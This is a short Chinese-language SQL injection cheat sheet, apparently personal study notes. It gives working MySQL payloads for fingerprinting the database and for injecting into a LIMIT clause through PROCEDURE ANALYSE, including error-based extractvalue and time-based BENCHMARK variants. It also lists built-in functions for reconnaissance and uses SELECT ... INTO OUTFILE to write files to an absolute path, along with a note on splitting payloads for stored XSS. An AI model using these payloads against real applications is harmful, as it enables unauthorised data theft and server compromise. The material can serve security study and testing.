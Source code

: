 判断数据库类型

根据错误提示判断:ora开头的为oracle数据库

`id=1 and connection_id()`

`id=1 and last_insert_id()`

第一个返回正常，第二个不返回数据，推断为mysql

## 拆分代码注入

将一段完整的payload，拆分为几段，分别进行注入，最后形成一段完整的代码 //存储型xss

## limit子句中的注入

使用procedure

如果不存在order by子句可使用联合查询注入

如果存在则需使用procedure

报错

select * from table order by name limit 0,1 procedure analyse(exractvalue(1,concat(0x3a,version())),1)

延时

select id from users order by id limit 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(if(mid(version(),1,1) like 5, BENCHMARK(5000000,SHA1(1)),1))))),1)

该方法存在版本限制，只能用于5.0-5.6之间的版本

## 常用内置函数

@@version //数据库版本号

@@datadir

@@basedir

@@version_compile_os

user() //当前登录用户

database() //数据库名

current_user()

system_user()

![](https://www.notion.so/sql%E6%B3%A8%E5%85%A5%20629f306f168c40bcadaf968bb14be760/Untitled.png)

sql%E6%B3%A8%E5%85%A5%20629f306f168c40bcadaf968bb14be760/Untitled.png

select “” > 绝对路径 //插入文件

select “” into outfile 绝对路径 //插入文件
